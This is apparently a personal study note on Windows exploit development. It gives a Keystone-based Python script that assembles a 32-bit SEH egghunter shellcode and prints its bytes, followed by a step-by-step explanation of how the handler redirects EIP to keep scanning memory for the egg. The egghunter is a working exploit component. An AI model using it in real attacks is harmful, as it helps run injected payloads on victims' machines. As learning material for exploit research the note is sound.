 ```
from keystone import *

CODE = (
"	start: 									 "
		# jump to a negative call to dynamically 
		# obtain egghunter position
"		jmp get_seh_address 				;" 
"	build_exception_record: 				 "
		# pop the address of the exception_handler 
		# into ecx
"		pop ecx 							;" 
		# mov signature into eax
"		mov eax, 0x74303077 				;" 
		# push Handler of the 
		# _EXCEPTION_REGISTRATION_RECORD structure
"		push ecx 							;" 
		# push Next of the 
		# _EXCEPTION_REGISTRATION_RECORD structure
"		push 0xffffffff 					;" 
		# null out ebx
"		xor ebx, ebx 						;" 
		# overwrite ExceptionList in the TEB with a pointer
		# to our new _EXCEPTION_REGISTRATION_RECORD structure
"		mov dword ptr fs:[ebx], esp 		;" 
"	is_egg: 								 "
		# push 0x02
"		push 0x02 							;" 
		# pop the value into ecx which will act 
		# as a counter
"		pop ecx 							;" 
		# mov memory address into edi
"		mov edi, ebx 						;" 
		# check for our signature, if the page is invalid we 
		# trigger an exception and jump to our exception_handler function
"		repe scasd 							;" 
		# if we didn't find signature, increase ebx 
		# and repeat
"		jnz loop_inc_one 					;"  
		# we found our signature and will jump to it
"		jmp edi 							;" 
"	loop_inc_page: 							 " 
		# if page is invalid the exception_handler will 
		# update eip to point here and we move to next page
"		or bx, 0xfff 						;" 
"	loop_inc_one: 							 "
		# increase ebx by one byte
"		inc ebx 							;" 
		# check for signature again
"		jmp is_egg 							;" 
"	get_seh_address: 						 "
		# call to a higher address to avoid null bytes & push 
		# return to obtain egghunter position
"		call build_exception_record 		;" 
		# push 0x0c onto the stack
"		push 0x0c 							;" 
		# pop the value into ecx
"		pop ecx 							;" 
		# mov into eax the pointer to the CONTEXT 
		# structure for our exception
"		mov eax, [esp+ecx] 					;" 
		# mov 0xb8 into ecx which will act as an 
		# offset to the eip
"		mov cl, 0xb8						;" 
		# increase the value of eip by 0x06 in our CONTEXT 
		# so it points to the "or bx, 0xfff" instruction 
		# to increase the memory page
"		add dword ptr ds:[eax+ecx], 0x06	;" 
		# save return value into eax
"		pop eax 							;" 
		# increase esp to clean the stack for our call
"		add esp, 0x10 						;" 
		# push return value back into the stack
"		push eax 							;" 
		# null out eax to simulate 
		# ExceptionContinueExecution return
"		xor eax, eax 						;" 
		# return
"		ret 								;" 
)

# Initialize engine in X86-32bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
print("Encoded %d instructions..." % count)

egghunter = ""
for dec in encoding: 
  egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n") 
print("egghunter = (\"" + egghunter + "\")")
```

1. jmp down to get_seh_address: first, this allows us store an address to the stack and avoid null bytes with our relative call to build_exception_record:.
2. In build_exception_record:, we immediately pop off the return address and create the ERR struct (`_EXCEPTION_REGISTRATION_RECORD`) on the stack by pushing the return address on as 'Handler' and pushing -1 (as 0xffffffff) as 'Next'. We also move our egg string into eax for scasd.
3. Overwrite the ExceptionList member in TEB by zero'ing ebx (XOR) then `mov dword ptr fs:[ebx], esp` which moves the created ERR struct into TEB location of our first error handler.
4. See [[Egghunter Example]] for is_egg:, loop_inc_page:, and loop_inc_one implementations. We use `repe scasd` to compact our repeated dword string compare, where ecx (set to 2 here) serves as a counter for repe. https://www.felixcloutier.com/x86/scas:scasb:scasw:scasd
5. The return address we pushed as 'Handler' leads us back to get_seh_address in the case of an exception (due to an invalid read address). This section should restore execution back to loop_inc_page: to continue searching.
	1. The OS invokes `_except_handler` on exception (see "`_except_handler` prototype" in [[Exploiting SEH Overflows]]). One parameter is ContextRecord which contains EIP at time of exception. 
	2. `push 0x0c` (0c to get the 3rd pointer parameter) and `pop ecx` then `mov eax, [esp+ecx]`, all to get the dereferenced value in eax. 
	3. `mov cl, 0xb8` and `add dword ptr ds:[eax+ecx], 0x06` to offset b8 into ContextRecord where eip is stored, and then add 06 to the eip value to point it 3 instructions ahead at loop_inc_page: (from `repe scasd` where the exception was triggered)
	4. `pop eax` (with the return address), `add esp 0x10` wipe the mangled stack, `push eax` restore the return address on the stack. Then finally return value of 0 to `_except_handler` with `xor eax, eax` signaling 'ExceptionContinueExecution'